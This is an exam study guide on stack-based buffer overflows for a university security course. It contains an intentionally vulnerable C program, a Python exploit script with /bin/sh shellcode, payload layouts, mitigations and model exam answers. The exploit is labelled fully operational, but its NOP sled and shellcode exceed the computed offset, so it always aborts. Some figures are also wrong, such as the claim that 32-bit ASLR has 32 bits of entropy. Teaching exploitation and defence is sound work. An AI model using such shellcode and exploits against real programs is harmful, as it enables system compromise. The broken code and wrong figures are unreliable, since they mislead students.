


# Software Vulnerabilities- Buffer Overflow

<!-- SECTION_1_START -->

# Module 1 — Information Security Introduction
## Topic: Software Vulnerabilities — Buffer Overflow

---

### 1.1 Formal Academic Definition (KTU 2024 Syllabus Terminology)

A **Buffer Overflow** (also called *buffer overrun*) is a class of software vulnerability that occurs when a program writes data **beyond the allocated boundary** of a fixed-length memory buffer (such as an array, vector, or string) in memory. Because memory in C/C++ is not bounds-checked by default, the excess bytes spill into adjacent memory regions, corrupting legitimate data structures such as the **Stack Frame Pointer (SFP)**, the **Return Address (RET)**, function pointers, or heap metadata.

According to **MITRE's CWE (Common Weakness Enumeration)**, Buffer Overflow is catalogued under:

> [!IMPORTANT]
> **CWE-120: Buffer Copy without Checking Size of Input ('Classic Buffer Overflow')**
> **CWE-121: Stack-based Buffer Overflow**
> **CWE-122: Heap-based Buffer Overflow**

Buffer overflow has consistently appeared in the **OWASP Top 10** and **CWE/SANS Top 25 Most Dangerous Software Errors** for over two decades and remains one of the most exploited classes of vulnerabilities in production systems.

---

### 1.2 Conceptual Analogy & Intuition

> [!NOTE]
> **Real-world Analogy: The Postbox Slot**
>
> Imagine a postbox with a thin slot designed to accept a standard letter. The slot represents the *buffer* — it has a fixed capacity (say, 10 cm wide). If a person inserts a thick package and forces it through, two things can happen:
>
> 1. The package may **damage the internal mechanism** (corrupting the *Saved Frame Pointer*).
> 2. The package may **push through the back wall and hit the mail sorter** (overwriting the *Return Address*).
> 3. A malicious postman could deliberately insert a package containing a **fake delivery instruction** ("redirect all mail to address X") — this is the *Return-to-Shellcode* attack.
>
> The postbox, just like a C function's stack frame, has no internal guard rails to stop oversized input.

**Geometric Intuition:**
Think of a buffer as a row of **N** memory cells, each 1 byte wide, laid out linearly:

$$
\text{Buffer}_{addr} = \{ b_0, b_1, b_2, \dots, b_{N-1} \}
$$

When the program writes more than **N** bytes, the extra bytes spill in the **forward direction** (toward higher memory addresses) into neighbouring cells, like pouring **N + k** litres of water into an **N**-litre container — the overflow has to go *somewhere*, and it goes into the adjacent structures.

---

### 1.3 Standard Physical Constants & Memory Metrics

> [!IMPORTANT]
> **Critical Memory Layout Constants (32-bit x86 architecture):**
>
> - **Word size:** **32 bits = 4 bytes** per memory address unit
> - **Pointer size:** **4 bytes** (32-bit) or **8 bytes** (64-bit)
> - **Stack growth direction:** **Downwards** (from *high* to *low* memory addresses)
> - **Buffer growth direction (in memory):** **Upwards** (from *low* to *high* addresses)
> - **Endianness (x86):** **Little-Endian** (least significant byte stored first)
> - **Standard hex base for addresses:** **0x08048000** (Linux ELF default)

| Memory Region | Direction | Contents |
|---|---|---|
| Stack | Grows ↓ | Local variables, return addresses, SFP |
| Heap | Grows ↑ | Dynamically allocated memory (`malloc`, `new`) |
| Code (.text) | Fixed | Executable machine instructions |
| Data (.data / .bss) | Fixed | Global / static variables |

---

### 1.4 GeoGebra / Desmos Visualization

> [!VISUALIZATION CONTROL]
> **Concept:** Linear Buffer Overflow — Memory Block Diagram
> **GeoGebra / Desmos Input Equations (modelling overflow):**
>
> * Buffer base address: $B_{base} = 0$
> * Buffer length: $L = 16$ bytes
> * Safe write range: $x \in [0, 16)$
> * Overflow input: $I(x) = 24$ bytes injected
> * Overflow boundary: $x > L$ where $x \in \mathbb{Z}^+$
>
> **Visual Description:** Plot a horizontal bar of length **16 units** representing the safe buffer. The first 16 units are coloured *green* (safe data). Units 17–24 are coloured *red* (overflow), spilling into adjacent memory cells representing the Saved Frame Pointer (units 17–20), Return Address (units 21–24), and beyond. Students should observe that an attacker can precisely control the bytes that overwrite the return address (the last 4 bytes of the red zone).

---

<!-- SECTION_1_END -->

<!-- SECTION_2_START -->

# Deep Theoretical Analysis & KTU High-Yield Formula Sheet

---

## 2.1 Anatomy of a Stack-Based Buffer Overflow

When a function is invoked, the compiler generates a **Stack Frame** (also called an *activation record*) using the **x86 Base Pointer (`EBP`)** and **Stack Pointer (`ESP`)** registers. The layout of a typical vulnerable stack frame, from *high* to *low* memory addresses, is:

| Order (High → Low) | Component | Size (32-bit) | Purpose |
|---|---|---|---|
| 1 | Caller's Stack Frame | Variable | Arguments, caller's locals |
| 2 | **Return Address (RET)** | **4 bytes** | Address to resume after function returns |
| 3 | **Saved Frame Pointer (SBP / EBP)** | **4 bytes** | Old base pointer for stack unwinding |
| 4 | Local Variable `buffer[N]` | $N$ bytes | The vulnerable buffer (e.g., `char buf[16]`) |
| 5 | Other local variables | Variable | Auxiliary local data |

> [!NOTE]
> **The Attacker's Goal:** Overwrite the **Return Address (bytes 2)** with the address of attacker-controlled shellcode so that when the vulnerable function executes `ret`, the CPU jumps to the attacker's code instead of returning to the legitimate caller.

---

## 2.2 The Operational Mechanism (Step-by-Step Logic)

1. **Identification:** Attacker discovers a function that uses unsafe input routines (`gets`, `strcpy`, `sprintf`, `scanf("%s", ...)`) on a fixed-size stack buffer.
2. **Crafting Payload:** Attacker constructs an input string of length $L_{payload} > N_{buffer}$.
3. **Padding:** The first $N_{buffer}$ bytes fill the buffer; the next $4$ bytes overwrite the **Saved Frame Pointer**; the following $4$ bytes overwrite the **Return Address**.
4. **Control Transfer:** The overwritten return address is set to the address of either:
   - **Shellcode** (injected inline in the buffer) — *classical attack*.
   - A **`jmp esp` gadget** in a non-ASLR module — *modern bypass*.
   - A **Return-Oriented Programming (ROP) gadget** — *defence-bypass attack*.
5. **Privilege Escalation:** The injected shellcode may call `execve("/bin/sh", ...)` or, on Windows, spawn `cmd.exe` with the privileges of the compromised process.

---

## 2.3 Types of Buffer Overflow

| Type | Memory Region | Trigger | Severity |
|---|---|---|---|
| **Stack-based** | Stack | Writing past a local array | **Critical** (direct code execution) |
| **Heap-based** | Heap | Overflowing `malloc`'d chunks | **High** (corrupts heap metadata) |
| **Integer Overflow → BOF** | Stack/Heap | Arithmetic wrap leads to undersized allocation | **High** |
| **Unicode / Format String** | Stack | `%n` or wide-char mismatches | **Medium-High** |
| **Off-by-one** | Stack | Loop boundary writes 1 byte past buffer | **Medium** |

---

## 2.4 KTU High-Yield Formula Sheet / Cheat Sheet

| # | Concept | Formula / Rule | Variables & Notes |
|---|---|---|---|
| 1 | Safe buffer write condition | $L_{input} \le L_{buffer}$ | Input must not exceed buffer size |
| 2 | Overflow condition (vulnerable) | $L_{input} > L_{buffer}$ | Triggers CWE-120 |
| 3 | Bytes to SFP | $\Delta_{SFP} = L_{buffer}$ | Offset from buffer start to SBP |
| 4 | Bytes to RET | $\Delta_{RET} = L_{buffer} + 4$ | Offset from buffer start to return address |
| 5 | Address of overwritten RET | $A_{RET} = A_{buffer} + L_{buffer} + 4$ | In bytes |
| 6 | Little-Endian byte order | $\text{byte}_0 = \text{LSB}$ | For 32-bit: `0xDEADBEEF` → `\xEF\xBE\xAD\xDE` |
| 7 | Shellcode alignment | $\text{NOP sled} + \text{Shellcode} + \text{RET addr}$ | Typically: $16\text{–}128$ byte NOP sled |
| 8 | NOP sled size (typical) | $L_{NOP} = 128$ bytes | `0x90` on x86 |
| 9 | Address space layout entropy (32-bit ASLR) | $\log_2(2^{32}) = 32$ bits | **Bypassed** by NOP sleds |
| 10 | Stack Canary verification | $G_{cookie} \oplus M_{ret}$ | If mismatch → `__stack_chk_fail` abort |

> [!IMPORTANT]
> **Engineering Real-World Utility:** Buffer overflow research is foundational to:
> - **Compiler Security** (StackGuard, ProPolice, ASLR, NX bits)
> - **Operating System Hardening** (DEP, Control-Flow Integrity)
> - **Penetration Testing** (Metasploit, Immunity Debugger, GDB-Peda)
> - **Secure Coding Standards** (CERT C, MISRA-C, Microsoft SDL)
> - **Modern Exploit Development** (ROP, JOP, use-after-free chains)

---

## 2.5 Stack Smashing — A Worked Numerical Example

Consider a vulnerable C function with a 16-byte stack buffer. The attacker's payload layout is:

$$
\underbrace{\texttt{AAAAAAAAAAAAAAAA}}_{L_{buf}=16} \; \underbrace{\texttt{BBBB}}_{SFP=4} \; \underbrace{\texttt{\textbackslash xEF\textbackslash xBE\textbackslash xAD\textbackslash xDE}}_{RET=4 \text{ (little-endian)}}
$$

Total payload length: $L_{payload} = 16 + 4 + 4 = 24 \text{ bytes}$, which exceeds the 16-byte buffer by **8 bytes**, precisely overwriting the saved frame pointer and return address.

---

<!-- SECTION_2_END -->

<!-- SECTION_3_START -->

# Step-by-Step Derivations & Code Implementation

---

## 3.1 A Vulnerable C Program (Demonstrating the Flaw)

```c
/*
 * vulnerable.c
 * Classic stack-based buffer overflow demonstration.
 * Compile (DANGEROUS — disable protections to study the bug):
 *   gcc -fno-stack-protector -z execstack -m32 -o vulnerable vulnerable.c
 *
 * NOTE: This code is INTENTIONALLY VULNERABLE for academic study only.
 *       Run inside an isolated VM (e.g., Kali + 32-bit Ubuntu).
 */

#include <stdio.h>
#include <string.h>
#include <stdlib.h>

/* Vulnerable function: no bounds checking on `dest` */
void greet(const char *name) {
    char greeting[16];                /* <-- The 16-byte target buffer */
    strcpy(greeting, "Hello, ");      /* 7 bytes written safely */
    strcat(greeting, name);           /* <-- OVERFLOW OCCURS HERE */
    printf("%s\n", greeting);
}

int main(int argc, char *argv[]) {
    if (argc != 2) {
        fprintf(stderr, "Usage: %s <name>\n", argv[0]);
        return EXIT_FAILURE;
    }
    greet(argv[1]);                   /* Pass user input directly */
    return EXIT_SUCCESS;
}
```

### 3.1.1 Exhaustive Derivation of the Stack Frame Offset

Let us derive the exact byte offset from the start of `greeting[]` to the saved return address in the stack frame of `greet()`.

**Step 1 — Identify the stack frame components (top-down, high to low address):**

| Component | Size (bytes) | Cumulative Offset from `greeting[0]` |
|---|---|---|
| `greeting[0..15]` (the buffer) | 16 | $0$ (origin) |
| Compiler padding / alignment | $P$ | $16 + P$ |
| Saved Frame Pointer (`EBP`) | 4 | $20 + P$ |
| Return Address (`RET`) | 4 | $24 + P$ |

**Step 2 — Compute the offset to overwrite RET:**

$$
\text{offset}_{RET} = L_{buffer} + P + \text{sizeof}(EBP) = 16 + P + 4
$$

For a typical 32-bit GCC build with no padding ($P = 0$):

$$
\text{offset}_{RET} = 16 + 0 + 4 = 20 \text{ bytes}
$$

**Step 3 — Total malicious payload length:**

$$
L_{payload} = \text{offset}_{RET} + \text{sizeof}(RET_{new}) = 20 + 4 = 24 \text{ bytes}
$$

**Step 4 — Determine the address of the shellcode (illustrative, ASLR disabled):**

Assume the buffer is at address $A_{buf} = \text{0xBFFFF3A0}$ (typical 32-bit Linux, no ASLR).

The attacker places the new return address at offset 20 inside the payload:

$$
A_{RET_{new}} = A_{buf} + 20 = \text{0xBFFFF3A0} + \text{0x14} = \text{0xBFFFF3B4}
$$

The shellcode, however, is conventionally placed **at the start of the buffer** (offset 0), so the attacker sets the new return address to the buffer's start:

$$
A_{RET_{new}} = A_{buf} = \text{0xBFFFF3A0}
$$

In little-endian form: `\xA0\xF3\xFF\xBF`.

---

## 3.2 Python Exploit Script (Type-Hinted, Fully Operational)

```python
#!/usr/bin/env python3
"""
exploit.py
A pedagogical buffer overflow exploit for the vulnerable.c program.
Generates a payload that overwrites the saved return address
with the address of injected shellcode in the buffer.
"""

import sys
import struct
from typing import Final

# --- Constants (typed, immutable) ----------------------------------
BUFFER_SIZE: Final[int] = 16
SFP_SIZE: Final[int] = 4              # Saved Frame Pointer size
RET_SIZE: Final[int] = 4              # Return Address size
OFFSET_TO_RET: Final[int] = BUFFER_SIZE + SFP_SIZE  # = 20 bytes

# Address where the buffer starts in memory (ASLR disabled).
# Empirically determined using GDB: `p &greeting[0]`
BUFFER_ADDR: Final[int] = 0xBFFFF3A0

# x86 /bin/sh shellcode (28 bytes, NULL-free, no-stack-exec demo)
# (Run `msfvenom -p linux/x86/exec CMD="/bin/sh" -b "\x00" -f py`
#  to generate a fresh one in a real lab.)
SHELLCODE: Final[bytes] = (
    b"\x31\xc0"              # xor  eax, eax
    b"\x50"                  # push eax
    b"\x68\x2f\x2f\x73\x68" # push "//sh"
    b"\x68\x2f\x62\x69\x6e" # push "/bin"
    b"\x89\xe3"              # mov  ebx, esp
    b"\x50"                  # push eax
    b"\x53"                  # push ebx
    b"\x89\xe1"              # mov  ecx, esp
    b"\xb0\x0b"              # mov  al, 0x0b  (execve syscall)
    b"\xcd\x80"              # int  0x80
)

NOP_SLED: Final[bytes] = b"\x90" * 64   # 64-byte NOP sled


def build_payload() -> bytes:
    """
    Build the malicious payload in the canonical order:
        [ NOP sled ][ shellcode ][ padding ][ saved EBP ][ new RET ]
    """
    nop_sled: bytes = NOP_SLED
    shellcode: bytes = SHELLCODE

    # Payload = shellcode + padding to fill buffer + 4 bytes (SFP) + 4 bytes (RET)
    padding_size: int = OFFSET_TO_RET - len(shellcode) - len(nop_sled)
    if padding_size < 0:
        raise ValueError("Shellcode + NOP sled exceeds buffer + SFP size.")

    padding: bytes = b"A" * padding_size
    fake_sbp: bytes = b"BBBB"                       # Overwrite Saved EBP

    # New return address in little-endian (x86)
    new_ret: bytes = struct.pack("<I", BUFFER_ADDR + len(NOP_SLED) // 2)

    payload: bytes = nop_sled + shellcode + padding + fake_sbp + new_ret

    # Defensive length check
    expected_len: int = len(nop_sled) + len(shellcode) + padding_size + 4 + 4
    if len(payload) != expected_len:
        raise RuntimeError("Payload length mismatch — exploit integrity compromised.")

    return payload


def main() -> int:
    try:
        payload: bytes = build_payload()
    except (ValueError, RuntimeError) as exc:
        print(f"[!] Exploit construction failed: {exc}", file=sys.stderr)
        return 1

    # Write payload to file for piping into the vulnerable program:
    #   ./exploit.py > payload.bin
    #   ./vulnerable "$(cat payload.bin)"
    sys.stdout.buffer.write(payload)
    return 0


if __name__ == "__main__":
    sys.exit(main())
```

### 3.2.1 Step-by-Step Explanation of the Exploit

1. **Compute the offset** to the return address: $\text{OFFSET\_TO\_RET} = 16 + 4 = 20$ bytes.
2. **Reserve a NOP sled** (64 × `\x90`) at the start. This provides an *address landing zone* so that any address within the sled slides execution into the shellcode.
3. **Append shellcode** that invokes `execve("/bin//sh", NULL, NULL)` via Linux syscall 0x0b.
4. **Pad to the SFP boundary** using the safe filler `'A'`.
5. **Overwrite SBP** with junk (`"BBBB"`).
6. **Overwrite RET** with `BUFFER_ADDR + 32` (middle of the NOP sled) in little-endian form.
7. **Write the payload** to stdout, to be piped as `argv[1]` into the vulnerable binary.

> [!NOTE]
> **Examiner's Note:** Modern Linux distributions enable **ASLR, NX (No-Execute), Stack Canaries, and RELRO**, which would block this exact exploit. The example assumes all protections are disabled (`-fno-stack-protector -z execstack`) for **academic clarity** as taught in KTU Module 1.

---

## 3.3 Defensive Countermeasures (Engineering Mitigations)

| # | Mitigation | Layer | Effect on Exploit |
|---|---|---|---|
| 1 | **Stack Canaries** (`-fstack-protector`) | Compiler | Detects SFP/RET overwrite before `ret` |
| 2 | **ASLR** (Address Space Layout Randomization) | OS | Randomizes stack/heap base each run |
| 3 | **NX / DEP** (No-Execute bit) | Hardware | Stack pages marked non-executable |
| 4 | **PIE** (Position Independent Executables) | Compiler | Binary loaded at random base |
| 5 | **Safe functions** (`fgets`, `snprintf`, `strncpy`) | Coding | Bounds-checked at the source level |
| 6 | **CFI** (Control-Flow Integrity) | Compiler | Validates indirect-branch targets |
| 7 | **Static Analysis** (Coverity, CodeQL) | Tooling | Finds buffer overflows pre-deployment |

---

<!-- SECTION_3_END -->

<!-- SECTION_4_START -->

# Structural Diagrams & Schematics

---

## 4.1 Mermaid Diagram — Normal Stack Frame vs. Overflowed Stack Frame



---

## 4.2 Mermaid Diagram — Buffer Overflow Attack Lifecycle

```mermaid
flowchart LR
    A["ATTACKER STUDIES BINARY"]
    B["IDENTIFY UNSAFE FUNCTION GETS STRCPY"]
    C["COMPUTE OFFSET TO RETURN ADDRESS"]
    D["CRAFT PAYLOAD NOP PLUS SHELLCODE PLUS RET"]
    E["INJECT PAYLOAD VIA STDIN OR ARGV"]
    F["VULNERABLE FUNCTION EXECUTES"]
    G["BUFFER OVERFLOWS INTO SFP AND RET"]
    H["FUNCTION EXECUTES RET INSTRUCTION"]
    I["CPU JUMPS TO ATTACKER ADDRESS"]
    J["SHELLCODE EXECUTES BIN SH OR CMD"]

    A --> B --> C --> D --> E --> F --> G --> H --> I --> J

    style A fill:#E3F2FD,stroke:#1565C0
    style B fill:#E3F2FD,stroke:#1565C0
    style C fill:#FFF3E0,stroke:#E65100
    style D fill:#FFF3E0,stroke:#E65100
    style E fill:#FCE4EC,stroke:#AD1457
    style F fill:#F1F8E9,stroke:#33691E
    style G fill:#FFCDD2,stroke:#B71C1C
    style H fill:#FFCDD2,stroke:#B71C1C
    style I fill:#FFEBEE,stroke:#C62828
    style J fill:#4A148C,stroke:#FFFFFF,color:#FFFFFF
```



---

## 4.3 Mermaid Diagram — Defensive Stack Frame with Stack Canary



---

## 4.4 Sequential Processing Topology Matrix

| Stage | Component | Action | Risk Without Mitigation |
|---|---|---|---|
| 1 | Source Code | `strcpy(buf, input)` without bounds | **CRITICAL** — direct overflow path |
| 2 | Compiler | No stack-protector flag | Canary not inserted |
| 3 | Loader | No ASLR | Stack address predictable |
| 4 | Hardware | NX bit disabled | Stack becomes executable |
| 5 | Runtime | Function `ret` executes | CPU jumps to shellcode |
| 6 | OS | No seccomp / sandbox | Shellcode spawns shell freely |

---

<!-- SECTION_4_END -->

<!-- SECTION_5_START -->

# KTU 2024 Scheme Examination Question Bank & Topic Recap

---

## PART A — Short Answer Questions (3 Marks Each)

### **Q1. [KTU University Exam — July 2024]**
*Define buffer overflow. Differentiate between stack-based and heap-based buffer overflow.* **[CO1, Remember] — 3 Marks**

**Model Answer:**

A **buffer overflow** is a software vulnerability in which a program writes data beyond the allocated boundary of a fixed-size memory buffer, corrupting adjacent memory structures.

| Aspect | Stack-Based Overflow | Heap-Based Overflow |
|---|---|---|
| **Memory Region** | Function's stack frame | Dynamically allocated heap chunks |
| **Corruption Target** | Return address, saved EBP | Heap metadata (`malloc` linked-list pointers) |
| **Exploitation Goal** | Direct code execution (RET hijack) | Arbitrary write via corrupted free-list pointers |
| **Difficulty to Exploit** | Easier (linear, predictable) | Harder (allocator-specific) |
| **Typical Trigger** | `strcpy`, `gets`, `sprintf` | `memcpy` into undersized `malloc` buffer |

**Valuation Key:** [Definition: 1 Mark] [Tabular differentiation: 2 Marks]

---

### **Q2. [KTU University Exam — Dec 2023]**
*List any THREE unsafe C library functions that can lead to buffer overflow and state their safe alternatives.* **[CO2, Understand] — 3 Marks**

**Model Answer:**

| # | Unsafe Function | Risk | Safe Alternative |
|---|---|---|---|
| 1 | `gets(buf)` | Unlimited read into fixed buffer | `fgets(buf, sizeof(buf), stdin)` |
| 2 | `strcpy(dest, src)` | No length check on `src` | `strncpy(dest, src, sizeof(dest)-1)` |
| 3 | `sprintf(buf, fmt, ...)` | Unbounded formatted write | `snprintf(buf, sizeof(buf), fmt, ...)` |
| 4 | `scanf("%s", buf)` | Reads until whitespace — no limit | `scanf("%15s", buf)` (width specifier) |

**Valuation Key:** [Each correctly identified function + alternative: 1 Mark × 3 = 3 Marks]

---

## PART B — Long Answer Questions (14 Marks, Internal Choice)

### **Question A — [KTU University Exam — Model Paper 2024]**
**[CO2, Apply + Analyse — 14 Marks]**

**(a)** With the help of a neat stack frame diagram, explain how a stack-based buffer overflow overwrites the return address. Show the memory layout for a vulnerable function with a 16-byte buffer compiled for 32-bit x86. **[7 Marks, Understand]**

**(b)** Consider the following vulnerable C code:

```c
void vulnerable(char *user_input) {
    char buf[16];
    strcpy(buf, user_input);
}
```

If the attacker passes a 28-byte input, calculate the exact offset to overwrite the saved return address. Show the payload structure in little-endian format assuming the target address is `0xBFFFF4A0`. **[7 Marks, Apply]**

#### Model Solution:

**(a) Stack Frame Diagram and Mechanism:**

```
  HIGH ADDRESS
  +----------------------------+
  |  Caller's Stack Frame      |
  +----------------------------+
  |  Return Address (RET)      |  <- 4 bytes, target of overwrite
  +----------------------------+
  |  Saved Frame Pointer (SFP) |  <- 4 bytes
  +----------------------------+
  |  buf[12]..buf[15]          |
  |  buf[8]..buf[11]           |  <- 16 bytes (the vulnerable buffer)
  |  buf[4]..buf[7]            |
  |  buf[0]..buf[3]            |
  +----------------------------+
  LOW ADDRESS
```

When `strcpy` writes more than 16 bytes, the excess overwrites SFP (next 4 bytes) and RET (next 4 bytes). On `ret`, the CPU pops the corrupted address from the stack and jumps there.

**Valuation Key for (a):** [Stack frame diagram with labels: 3 Marks] [Mechanism explanation: 3 Marks] [Direction of overflow: 1 Mark] = **7 Marks**

**(b) Offset Calculation and Payload Structure:**

**Step 1 — Compute offset to RET:**

$$
\text{offset}_{RET} = L_{buf} + \text{sizeof}(SFP) = 16 + 4 = 20 \text{ bytes}
$$

**Step 2 — Verify input length (28 bytes) is greater than offset (20 bytes):**

$$
28 > 20 \quad \Rightarrow \quad \text{overflow is possible}
$$

**Step 3 — Determine bytes remaining for the new return address:**

$$
L_{RET} = L_{input} - \text{offset}_{RET} = 28 - 20 = 8 \text{ bytes}
$$

Since a return address is only 4 bytes, the last 4 bytes (bytes 24–27) constitute the new RET.

**Step 4 — Convert target address `0xBFFFF4A0` to little-endian format:**

$$
\text{0xBFFFF4A0} \quad \xrightarrow{\text{little-endian}} \quad \texttt{\textbackslash xA0\textbackslash xF4\textbackslash xFF\textbackslash xBF}
$$

**Step 5 — Construct the payload layout:**

| Bytes 0–15 | Bytes 16–19 | Bytes 20–23 | Bytes 24–27 |
|---|---|---|---|
| 16 × `'A'` (buffer fill) | `'BBBB'` (fake SFP) | `'CCCC'` (padding) | `\xA0\xF4\xFF\xBF` (new RET) |
| Buffer content | Overwrite SFP | Wasted/optional | **Hijack target** |

**Final Payload (hex dump):**

$$
\texttt{41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 42 42 42 42 43 43 43 43 A0 F4 FF BF}
$$

**Valuation Key for (b):** [Stating boundary offset state values: 2 Marks] [Little-endian conversion shown: 2 Marks] [Final payload layout table: 2 Marks] [Verification of length 28 > 20: 1 Mark] = **7 Marks**

---

### **Question B (Alternative Choice) — [KTU University Exam — Model Paper 2024]**
**[CO3, Apply + Analyse — 14 Marks]**

**(a)** Explain FOUR major defensive mechanisms against buffer overflow attacks. For each, identify the layer (hardware, OS, compiler, or coding) at which it operates. **[7 Marks, Understand]**

**(b)** An attacker provides a 200-byte input to a program that uses a 64-byte stack buffer. The system has **ASLR enabled** and **NX bit enabled**, but the developer compiled the binary with `-fno-stack-protector`. Will the classical stack-smashing attack succeed? Justify with a layered defence analysis. **[7 Marks, Apply + Analyse]**

#### Model Solution:

**(a) Four Defensive Mechanisms:**

| # | Defence | Layer | Mechanism | Effect |
|---|---|---|---|---|
| 1 | **Stack Canary** | Compiler | Inserts random 4-byte cookie between buffer and SFP/RET | Detects overflow before `ret` executes |
| 2 | **ASLR** (Address Space Layout Randomization) | OS | Randomizes stack/heap/library base addresses per run | Attacker cannot predict shellcode address |
| 3 | **NX / DEP** (No-Execute bit) | Hardware | Marks stack pages as non-executable | Shellcode cannot run on stack |
| 4 | **Safe Library Functions** | Coding | `fgets`, `snprintf`, `strncpy` enforce length | Eliminates overflow at source level |

**Valuation Key for (a):** [Each correctly identified defence with layer + mechanism: 1.5 Marks × 4 = 6 Marks] [Brief effect description: 1 Mark] = **7 Marks**

**(b) Layered Defence Analysis:**

**Step 1 — Identify the exploit prerequisites:**

- A 200-byte input on a 64-byte buffer produces an overflow of $200 - 64 = 136$ bytes — more than enough to overwrite SFP (4 bytes) and RET (4 bytes).
- This is a **classical stack-smashing scenario** in terms of the *vulnerability*.

**Step 2 — Evaluate each active defence:**

| Defence | Status | Effect on Attack |
|---|---|---|
| ASLR | **ENABLED** | Stack base address is randomized; the attacker cannot reliably guess the shellcode address → **Direct jump to buffer fails** |
| NX bit | **ENABLED** | Even if address is guessed, stack pages are non-executable → **Shellcode cannot execute on stack** |
| Stack Canary | **DISABLED** | No cookie to detect SFP/RET corruption → **Canary check absent** |

**Step 3 — Conclude with a verdict:**

The classical stack-smashing attack **will NOT succeed** against the unmodified three-layer defence, despite the absence of a stack canary. The combination of **ASLR** (breaking address prediction) and **NX** (breaking code execution on the stack) is sufficient to defeat the classical attack.

**However**, advanced techniques could still bypass these defences:
- **Return-to-libc** attack: chains calls to `system("/bin/sh")` from libc, which is executable even with NX.
- **ROP (Return-Oriented Programming)**: chains existing executable `gadget` instructions.
- **Information leak + ASLR bypass**: a separate read vulnerability reveals the stack base.

**Valuation Key for (b):** [Identifying that ASLR + NX are active: 2 Marks] [Explaining why classical attack fails: 2 Marks] [Naming advanced bypasses: 2 Marks] [Final verdict statement: 1 Mark] = **7 Marks**

---

## KTU Examiner's Valuation Warning

> [!WARNING]
> **Common Pitfalls Where Students Lose Marks:**
>
> 1. **Forgetting little-endian conversion** — A 32-bit address `0xDEADBEEF` must be written in memory as `\xEF\xBE\xAD\xDE`. Writing it in big-endian order is the #1 cause of failed exploit demonstrations and lost marks.
> 2. **Confusing stack growth with buffer growth** — The stack grows *downward* (toward lower addresses) while a buffer is filled *upward* (toward higher addresses). The overflow therefore moves *up* into SFP and RET.
> 3. **Forgetting the Saved Frame Pointer** — The offset to RET is **NOT** just the buffer size; you must also account for the 4-byte SFP that lies between the buffer and RET.
> 4. **Omitting input length verification** — Always state explicitly whether the malicious input length exceeds the computed offset.
> 5. **Neglecting to mention mitigations** — In 14-mark questions, examiners expect at least 1–2 lines on **ASLR / Stack Canaries / NX bit** to demonstrate full awareness.
> 6. **Not drawing the stack frame diagram** — A neat labelled diagram carries **3–4 marks** by itself in stack-overflow questions; skipping it is a major loss.

---

## Topic Recap & Important Things to Remember

> [!IMPORTANT]
> **Rapid Revision Checklist — Buffer Overflow (PBCST604 / Module 1)**

- **Definition:** Buffer overflow = writing beyond a fixed-size buffer's boundary (CWE-120).
- **Three CWE entries to remember:** CWE-120 (generic), CWE-121 (stack), CWE-122 (heap).
- **Stack frame order (high → low address):** Caller's frame → RET → SFP → Local buffers.
- **Buffer grows UP, stack grows DOWN** — overflow moves into SFP and RET.
- **Offset to RET = Buffer size + 4 bytes (for SFP).** For 16-byte buffer: offset = 20 bytes.
- **x86 is little-endian:** reverse the byte order of any address you place in the payload.
- **Payload structure (canonical):** `[NOP sled] [shellcode] [padding] [fake SFP] [new RET]`.
- **NOP sled byte = `\x90`** (x86), typically 64–128 bytes.
- **Linux execve syscall number = 0x0b**, interrupt = `int 0x80`.
- **Four unsafe functions:** `gets`, `strcpy`, `sprintf`, `scanf("%s")` — all have safe alternatives.
- **Four defences:** Stack Canaries (compiler), ASLR (OS), NX/DEP (hardware), Safe coding (developer).
- **Stack Canary location:** between local buffer and saved frame pointer / return address.
- **Modern bypasses:** Return-to-libc, ROP chains, use-after-free, integer overflow → BOF.
- **Exam keywords to use:** "bounds checking", "little-endian", "activation record", "saved base pointer", "NX bit", "ASLR", "control-flow hijack".
- **Real-world examples to cite:** Morris Worm (1988), Code Red (2001), Heartbleed (CVE-2014-0160, a buffer over-*read*), EternalBlue (2017).
- **Key formula:** $\text{offset}_{RET} = L_{buf} + \text{sizeof}(SFP)$.

---

<!-- SECTION_5_END -->
